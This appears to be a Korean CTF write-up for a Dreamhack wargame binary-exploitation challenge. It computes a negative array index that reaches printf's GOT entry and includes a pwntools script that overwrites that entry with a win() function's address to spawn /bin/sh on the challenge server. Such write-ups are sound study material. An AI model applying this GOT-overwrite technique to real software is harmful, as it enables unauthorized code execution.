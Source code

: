 ```yaml
---
tags: [dreamhack, wargame, write-up]		
---
```


![Image](/assets/img/p_rho/image1.png)

![Image](/assets/img/p_rho/image2.png)

printf@GOT = 0x404008

buf 시작 주소 = 0x404080

![Image](/assets/img/p_rho/image3.png)

![Image](/assets/img/p_rho/image4.png)

buf         = 0x404080
printf@GOT  = 0x404008

차이: 0x404080 - 0x404008 = 0x78 = 120 bytes

배열 인덱싱은 타입 크기 단위로 계산됨

buf[0]의 타입은 unsigned long

x86_64 시스템에서 sizeof(unsigned long) = 8

그러므로 buf[i]는 실제로 buf + (i * 8)만큼 떨어진 주소에 접근함

따라서  오프셋으로 쓰려면 덮고 싶은 바이트 오프셋 / 8해서 인덱스를 계산해야 함 

```c
unsigned __int64 win()
{
  char *argv[3]; // [rsp+0h] [rbp-20h] BYREF
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  argv[0] = "/bin/sh";
  argv[1] = 0;
  execve("/bin/sh", argv, 0);
  return v2 - __readfsqword(0x28u);
}
```

내부에 win 함수가 있으므로 win함수로 덮어주면 된다.

주소는 4011b6

![Image](/assets/img/p_rho/image5.png)

---

exploit.py

```c
from pwn import *

#p = process("./prob")
p =  remote("host3.dreamhack.games",18578)

p.sendlineafter(b"val: ",b"-15")
p.sendlineafter(b"val: ",str(0x00000000004011B6).encode('ascii'))

p.interactive()
```